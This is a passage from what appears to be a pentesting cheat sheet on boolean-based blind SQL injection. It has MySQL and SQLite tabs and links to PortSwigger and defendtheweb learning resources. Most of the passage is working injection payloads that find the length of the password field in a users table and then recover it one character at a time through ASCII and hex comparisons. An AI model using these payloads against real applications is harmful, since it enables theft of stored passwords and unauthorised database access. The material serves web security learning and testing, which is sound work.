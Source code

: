 ```sql
-- If True, the first password's char is p
1'AND (SELECT ASCII(SUBSTRING(password, 1, 1))FROM users LIMIT 0,1)=112--

-- If True, the second password's char is a
1'AND (SELECT ASCII(SUBSTRING(password, 2, 1))FROM users LIMIT 0,1)=97--
```
{% endtab %}

{% tab title="SQLite" %}
First, retrieve the length of the value (we take password column as example):

```sql
1' AND (SELECT LENGTH(password) FROM users LIMIT 1 OFFSET 0)=9--  #True -> 1st password is 9 char
```

Second, retrieve values

```sql
-- If True, the first char of first password is p
1'AND (SELECT HEX(SUBSTR(password, 1, 1)) FROM users LIMIT 1 OFFSET 0)=HEX('p')--

-- If True, the second char of first password is a
1'AND (SELECT HEX(SUBSTR(password, 2, 1)) FROM users LIMIT 1 OFFSET 0)=HEX('a')
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://defendtheweb.net/article/blind-sql-injection" %}
